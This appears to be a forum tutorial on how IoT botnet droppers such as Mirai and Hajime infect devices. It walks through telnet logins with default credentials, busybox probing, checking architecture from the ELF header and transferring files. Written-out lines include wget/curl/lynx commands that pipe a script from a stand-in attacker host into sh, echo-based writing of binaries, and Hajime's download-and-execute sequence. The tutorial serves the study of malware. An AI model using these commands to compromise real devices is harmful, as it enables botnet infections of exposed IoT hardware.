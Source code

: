 Overview of an IoT malware
IoT malware, specially botnets have recently become quite popular. Mirai, Hajime, LuaBot,… are some examples of malware attacking embedded devices like modems, routers or different IoT thingies connected to the Internet.

Overall, there is nothing really special about the infection process. Most of those malwares do not even use an exploit. The infection process relies in the fact that many of those embedded devices are never reconfigured and, therefore, they still use a well-known default configuration. In this scenario, infecting the device is just a matter of trying all known user names and passwords until one just works.

However, in general, the attacker only have access to a telnet server in the device that gives access to a very constrained shell, usually a shrink version of busybox. What this means is that you will not find tools like ftp, wget or curl. For this reason the dropper may have to do some tricks to get the device infected.

Fine, but… what is a dropper again?
So, the thing usually goes like this.

The attacker launches a scan for vulnerable devices (devices enabling root accesses using default credentials publicly available)
For each vulnerable device, the attacker will start a root session (usually via telnet) to try to install the malware in the device.
The malware is executed and the device compromised.
The program/script used to get the malware in the device and install it is some times called dropper… because it allows the attacker to drop the malware in the device :slight_smile:

Depending on the available tools in the target device, the dropper can be something as easy as:

wget -q http://evil-hax0r.com/m.sh -O - | sh
curl -s http://evil-hax0r.com/m.sh | sh
lynx -dump http://evil-hax0r.com/m.sh | sh
Or may require to feed the data through the already established connection… In a sense, something similar to what happen when using a “Rubber Ducky”… Only a terminal is available and we can just type text on it.

Anatomy of a dropper
OK, the dropper goal is to get some malware into the device and start it up. This sounds very straight forward but it actually requires a few actions in order to succeed.

The first thing to do is to find a folder in the device with write and execution permissions. Usually the /tmp folder will fulfill those requirements but it is better to check what is available just in case.
The second thing to do is to figure out the architecture of the device so the proper binary will be copied. Malware targeting embedded device usually supports a few architectures to increase its chances to spread along the network. You will usually find a few ARM architectures, MIPS big and little endian and probably x86 32bis and 64bits
Finally it has to manage to transfer that file to the device and run it.
Note: Sophisticated droppers do more things as checking if the machine has already been infected, remove other malwares, check for RE environments (VMs, sandboxes,…). The steps above are, let’s say, the very minimum for a crappy IoT malware.

Let’s go one by one through these different steps… but first.

Parsing the commands
So, the attacker is running a program intended to remotely infect devices. It opens a socket to a telnet port in some device and it starts to send and recv data through that socket. The data interchanged through that socket is what you will type and see if you manually connect to the device.

But, in order to process, specially the responses from the device, it will be useful to get some mark indicating that our command has been completed. A trick used by many malwares is to use a non-existent busybox applet to signal the completion of every command issued. You will see commands like this:

nc; wget; /bin/busybox RANDOM_TAG
The command above is used by the malware Hajime to check if the current busybox has the applets nc and wget. For each unknown command, busybox will reply with:

COMMAND: applet not found
This way, if the previous command produces the following input:

nc: applet not found
wget: applet not found
RANDOM_TAG: applet not found
That means that nc and wget are not available. The RANDOM_TAG: applet not found string will indicate the end of the output and the parse just need to look for that string before issuing the next command.

Finding a suitable folder
As mentioned above, this is the first step so the dropper can drop files in the device. The usual way to do this is checking the output of cat /proc/mounts and check for the string rw. You can try that command in your Linux box just right now.

Note that it is very unlikely that grep is available in any of those embedded devices so cat /proc/mounts | grep rw may not work. Instead, the dropper will read the complete output from the cat command and look itself for the string.

Mirai and Hajime use this technique to find a suitable place to store and run files.

Let’s take a look to the command that Mirai executes (

https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L338 77

Have you spotted that TOKEN_QUERY at the end?. Sure you did. Now head to this header file (https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/headers/includes.h 76) and you will find this definitions:

#define TOKEN_QUERY     "/bin/busybox ECCHI"
#define TOKEN_RESPONSE  "ECCHI: applet not found"
Good… now you know what does that mean… don’t you?

Figuring out the architecture
Now, the dropper has to figure out the architecture so it can download the right binary for the device it is trying to infect. In general you will not find tools like file or readelf in an embedded device, so you may need to figure out the architecture by other means.

Yes, you may have to parse the ELF header!!!

To do that these droppers usually cat a binary that they know it exists… The choice for most of then is /bin/echo. For instance check the Mirai code (you can see how Hajime does it in the report linked in the resources section at the end).

https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L369 23

Well I haven’t said that, but, the Mirai dropper implements the telnet access as a state machine. You can see in the snippet above, how the state is set for the next loop (TELNET_DETECT_ARCH), then the command is send to the server and the loop iteration finish. In the next iteration the case TELNET_DETECT_ARCH will be fired and the output from cat read and processed.

https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L383 16

You can find the code to check the architecture here

https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/connection.c#L465 21

As I said, what Mirai does is parse the ELF header and check the e_machine and e_ident fields to figure out the architecture. It cast a pointer to the buffer read from the socket to an Elf_hdr struct and then it just access the fields…

Take a look to the code… Mirai actually does an extra check for ARM subtypes.

How to transfer the files
Now the dropper has to figure out what means are available to actually transfer the malware to the device.

For instance Mirai, checks for wget, tftp and echo, using the applet not found technique we described above. You can take a look to all the details here

https://github.com/jgamblin/Mirai-Source-Code/blob/master/loader/src/server.c#L431 23

When one of those tools are available, then we are done, but sometimes none of them can be found, and techniques like the echo method used by Mirai are needed.

Transferring files the hard way
So, how does this echo method works. Well this is simpler that it may look like. It just echoes a hex string to a file. Something like this:

echo -ne "\x7f\x45\x4c\x46\x..." > malware
This, however only works with very small binaries. For bigger binaries you may have to split the echo command in many pieces and use the >> append redirection to append each piece to the result file.

The Hajime case
The Hajime case is very interesting as it does a kind of two stages dropping check this 261 for details.

It first deploys a very small ELF binary. This binary is the one that will download the real malware. It connects to a pre-defined server and outputs to stdout whatever it receives from the server… the real malware. The way it does this is interesting. After dumping the first binary (the small one) using the echo technique, it runs the following shell commands:

cp .s .i; >.i; ./.s>.i; ./.i; rm .s; /bin/busybox ECCHI
So .s is the file where the small ELF was dumped using echo. This file was created previously and it has already got execution permissions. Knowing this, the shell code above does the following:

cp .s .i copies the small ELF (the one that will download the real malware) stored in .s to .i. As you know, all files starting with a dot are hidden (you have to use the flag -a with ls to see them). So this makes a copy of the binary… preserving the permissions. This basically means that we do not have to do chmod 777 .i after downloading the final malware
>.i . This is actually truncating the file. In other words, this is a way to remove all the content of the file and set its size to 0… but keeping the file permissions. So right now, we have an empty file with execution permissions
./.s>.i this is more obvious. Now it runs the downloader (the small ELF file created with echo) and redirects its standard output to the empty but executable file .i. As we said above, this downloader connects to a server and dumps to stdout whatever the server sends back. Think about it as a minimal wget command.
./.i;rm .s and finally the just downloaded malware is executed and the downloader removed from the disk. The main malware is likely a daemon, so, once started (./.i), it just returns the control to the shell that can then delete the downloader.
And from this point on that device is compromised.

Conclusions
Well, this is it for today. Hope you enjoy the reading and if this was a new topic for you that you have learn something. Please be free to share your comments and ask your questions in the comments below.

Resources
The contents of this paper is based on the information provided by the following sources:

Mirai Source Code: https://github.com/jgamblin/Mirai-Source-Code/tree/master/loader/src 108
Hajime Analysis: https://security.rapiditynetworks.com/publications/2016-10-16/hajime.pdf 
